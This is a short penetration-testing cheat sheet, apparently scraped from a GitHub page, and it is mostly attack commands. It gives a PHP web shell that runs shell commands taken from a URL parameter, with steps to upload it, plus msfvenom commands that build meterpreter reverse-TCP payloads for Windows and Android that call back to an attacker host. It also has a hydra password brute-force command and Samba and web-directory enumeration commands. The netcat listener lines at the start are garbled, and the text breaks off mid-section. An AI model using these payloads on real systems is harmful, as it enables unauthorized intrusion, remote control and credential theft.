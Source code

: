 attacker:

`nc -lnvp <PORT> -s <IP>`

target:

`nc -lnvp <PORT> -s <IP>`

#### Execute PHP shell commands in URL

1. create file [anyname.php]

`<?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>`

1. upload to server
2. execute commands by going to:

http://<IP>/anyname.php?cmd=<COMMAND>

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/f4b3de9b-cd1e-42f0-b18b-6137415b15ee/Untitled.png)

#### PORT::3389 OPEN (REMOTE SCREEN CONTROL)

framework: Crowbar

#### Create metasploit TCP reverse shell payload

standard format:

`msfvenom -p <PAYLOAD_PATH> -f <FILE_EXTENSION> -o <FILE_NAME + EXTENSION> LHOST=<ATTACKER_IP> LPORT=<ATTACKER_PORT>`

windows target:
`msfvenom -p windows/meterpreter/reverse_tcp -f <FILE_EXTENSION> -o <FILE_NAME + EXTENSION> LHOST=<ATTACKER_IP> LPORT=<ATTACKER_PORT>`

android target:
`msfvenom -p android/meterpreter/reverse_tcp -o app.exe LHOST=<ATTACKER_IP> LPORT=<ATTACKER_PORT>`

#### Brute-force password

framework: hydra

usage:

`$ hydra --l <NAME> -P <passlist.txt/WORDLIST_PATH> <IP>`

### SAMBA enumeration

Get information from a Samba system (find usernames)

`$ enum4linux -a <IP>`

### List pages on a website/web server

framework: dirb

`$ dirb <URL+http://>`

… with custom wordlist:
